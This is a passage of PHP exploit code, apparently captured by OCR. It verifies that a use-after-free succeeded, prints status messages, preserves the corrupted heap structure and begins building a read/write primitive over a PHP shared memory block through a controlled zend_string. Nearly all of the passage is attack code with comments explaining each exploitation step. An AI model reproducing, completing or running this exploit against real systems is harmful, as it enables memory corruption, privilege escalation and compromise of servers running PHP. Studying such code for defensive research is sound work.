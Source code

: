 	$x-&gt;h = 0x13121110;

	# Verify UAF was successful
	# We modified stuff via $x; they should be visible by $this-&gt;abc, since
	# they are at the same memory location.
	if(!(
		strlen($this-&gt;abc) === $x-&gt;d &amp;&amp;
		$this-&gt;abc[0] == "\x10" &amp;&amp;
		$this-&gt;abc[1] == "\x11" &amp;&amp;
		$this-&gt;abc[2] == "\x12" &amp;&amp;
		$this-&gt;abc[3] == "\x13"
	))
	{
		o('UAF failed, exiting.');
		exit();
	}
	o('UAF successful.');
	o('');

	# Give us some room
	# I: As indicated before, just unset a lot of stuff so that next allocs
	# don't break our fragile UAFd structure.
	unset($room);

	#
	# Setup the R/W primitive
	#

	# We control $abc's internal zend_string structure, therefore we can R/W
	# the shared memory block (SHM), but for that we need to know the
	# position of $abc in memory
	# I: We know the absolute position of the SHM, so we need to need abc's
	# as well, otherwise we cannot compute the offset
